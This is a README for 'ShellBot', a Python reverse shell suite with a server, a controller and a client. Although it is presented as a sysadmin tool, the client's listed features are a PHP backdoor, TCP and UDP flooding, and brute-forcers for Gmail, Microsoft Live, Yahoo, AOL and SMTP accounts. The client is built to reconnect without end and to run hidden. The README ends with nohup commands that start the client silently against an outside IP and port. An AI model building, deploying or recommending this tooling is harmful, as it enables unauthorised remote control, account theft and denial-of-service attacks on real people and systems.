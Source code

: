 # ShellBot

##### An advanced reverse shell written in Python3.

###### Based on `dotcppfile`'s [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/).

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a connection is achieved. All errors are handled internally and in case of a crash, the program automatically restarts.

---

#### Features:

##### Server:
1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best security, but at-least it is better than nothing. Will be improved on in future revisions.
1. Kicks the Controller after 5 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time). TODO: Make it 5 minutes after inactivity.

##### Client:
1. Infected PHP Backdooring Function. <i>(Linux Only)<i>
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer.
(if found, the password will be saved in "password.txt" client-side)
1. <del>OTA Updating.</del>
1. Indestructible Shell: Handles No Output, Wrong, Interactive and Infinite commands will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller. 

##### Controller:
1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other interactive shell, it is advised to start the client in another process. This can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```
